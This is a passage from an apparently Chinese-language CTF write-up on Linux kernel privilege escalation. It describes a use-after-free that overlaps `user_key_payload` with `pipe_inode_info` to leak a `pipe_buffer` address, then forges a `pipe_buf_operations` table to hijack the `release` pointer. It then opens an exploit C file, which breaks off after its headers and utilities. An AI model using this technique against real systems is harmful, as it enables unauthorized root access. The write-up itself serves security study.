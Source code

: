 ```c
```

同时内核中会分配一个 `pipe_buffer` 结构体数组，每个 `pipe_buffer` 结构体对应一张用以存储数据的内存页：

```c
struct pipe_buffer {
	struct page *page;
	unsigned int offset, len;
	const struct pipe_buf_operations *ops;
	unsigned int flags;
	unsigned long private;
};
```

`pipe_buf_operations` 为一张函数表，当我们对管道进行特定操作时内核便会调用该表上对应的函数，例如当我们关闭了管道的两端时，会触发 `pipe_buffer->pipe_buffer_operations->release` 这一指针，由此我们便能控制内核执行流，从而完成提权。

```c
struct pipe_buf_operations {
	//...

	/*
	 * When the contents of this pipe buffer has been completely
	 * consumed by a reader, ->release() is called.
	 */
	void (*release)(struct pipe_inode_info *, struct pipe_buffer *);
```

那么这里我们可以利用 UAF 使得 `user_key_payload` 与 `pipe_inode_info` 占据同一个 object， `pipe_inode_info` 刚好会将 `user_key_payload->datalen` 改为 `0xFFFF` 使得我们能够继续读取数据，从而读取 `pipe_inode_info`  以泄露出 `pipe_buffer` 的地址。

而  `pipe_buffer` 是动态分配的，因此我们可以利用题目功能预先分配一个对象作为 `pipe_buffer` 并直接在其上伪造函数表即可。

> 对于笔者来说比较麻烦的倒是找栈迁移的 gadget...好在最后还是成功找到了一些合适的 gadget。

### EXPLOIT

最后的 exp 如下：

```c
#define _GNU_SOURCE
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/prctl.h>
#include <sys/syscall.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <stdio.h>
#include <signal.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <ctype.h>
#include <stdint.h>

/**
 * Utilities
 */

size_t kernel_base = 0xffffffff81000000, kernel_offset = 0;

void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error at: \033[0m%s\n", msg);
    sleep(5);
    exit(EXIT_FAILURE);
```
